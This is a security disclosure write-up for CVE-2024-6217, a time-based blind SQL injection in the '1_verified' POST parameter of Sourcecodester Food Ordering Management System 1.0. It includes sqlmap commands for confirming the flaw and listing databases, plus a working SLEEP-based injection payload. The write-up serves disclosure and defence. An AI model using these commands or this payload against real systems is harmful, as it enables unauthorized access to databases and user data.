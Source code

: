 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (user-router.php)
## CVE-2024-6217

Affected Project: Sourcecodester Food Ordering Management System 1.0

Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Version: 1.0

Related Code file: user-router.php

Injection parameter: 1_verified


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The '1_verified' parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on "Modify", we can access user-router.php:

`http://172.16.76.1/foms/users.php`

![image](https://github.com/jadu101/CVE/assets/76433661/a007fd00-1573-4c4f-92f0-01cc212c2253)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/e3a06a90-6829-4821-be84-376f1e8853a6)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

parameter 1_verified is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_user_router.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/c819e930-cc89-443a-a411-1564c81a6c98)

```
---
Parameter: 1_verified (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1_role=Administrator&1_verified=1' AND (SELECT 7078 FROM (SELECT(SLEEP(5)))GiGD) AND 'QLkI'='QLkI&1_deleted=0&1_balance=2000&4_role=Customer&4_verified=1&4_deleted=0&4_balance=1224&5_role=Customer&5_verified=0&5_deleted=0&5_balance=2000&6_role=Customer&6_verified=0&6_deleted=0&6_balance=2000&75_role=Customer&75_verified=0&75_deleted=0&75_balance=2001&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_user_router.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/41fda954-8efa-4597-a3ff-399f75db7585)
